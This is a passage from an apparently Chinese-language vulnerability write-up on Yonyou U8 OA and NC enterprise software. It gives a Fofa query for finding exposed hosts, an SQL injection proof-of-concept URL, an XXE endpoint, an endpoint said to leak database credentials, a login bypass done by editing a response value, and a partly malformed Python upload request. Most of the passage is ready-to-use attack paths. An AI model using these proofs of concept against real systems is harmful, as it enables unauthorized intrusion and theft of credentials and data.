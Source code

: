 ```python
req = requests.post("http://+"ip"+/service/~xbrl/XbrlPersistenceServlet", headers=uploadHeader, verify=False, data=data, timeout=25)
print (req.text)
```

### 3.6 用友 `U8 OA` `SQL`注入漏洞

用友 `U8 OA test.jsp` 文件存在 `SQL` 注入漏洞

Fofa:

```
"/yyoa/seeyonoa/common/"
```

POC:

```
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![image-20220420133908432](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420133908432.png)

`sqlmap`跑一下

![image-20220420134720251](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420134720251.png)



### 3.7 xxe漏洞

接口处的XXE漏洞

POC:

```
/uapws/service/nc.uap.oba.update.IUpdateService?wsdl
```

![image-20220420135051396](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420135051396.png)



### 3.8 接口信息泄露

在其中有个接口可以获取数据库账户密码，不过是老版本了

```
/uapws/service
```

![image-20220420135719084](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420135719084.png)

### 3.9 控制台密码绕过

账户密码随便填，抓包将返回包0改为1,即可任意用户登录

![image-20220420140418744](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420140418744.png)
